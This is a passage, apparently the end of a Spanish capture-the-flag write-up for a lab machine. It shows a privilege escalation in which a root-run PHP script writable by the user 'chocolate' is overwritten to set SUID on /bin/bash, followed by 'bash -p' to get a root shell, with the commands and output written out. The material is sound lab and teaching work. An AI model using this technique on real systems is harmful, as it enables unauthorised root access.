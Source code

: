 Viendo que lo esta ejecutando el usuario "root" cada 5sg de forma automatica y que pertenece al usuario "chocolate", lo que deberiamos hacer ahora es bastante sencillo.

Editarlo, modificarlo para darle permisos "SUID" a "/bin/bash" y esperar 5sg a que se "autoejecute" gracias al usuario "root" ;) !!

Escribimos entonces en el terminal:
```
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```
Esperamos y ejecutamos:
```
ls -l /bin/bash
```
obteniendo como resultado un cambio en los permisos:
```
chocolate@53305a206d4f:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash  <==== Atentos a esa "s"
```
Ahora con un "bash -p" vemos que ya somos "root":
```
bash-5.0# whoami
root

bash-5.0#
```
Y con esto, la maquina estaria acabada.

***NOTA: En mi caso particular, y a pesar de estar definida como una maquina "facil", me ha parecido algo mas complicadilla de lo habitual, al nivel de una de dificultad "media".***

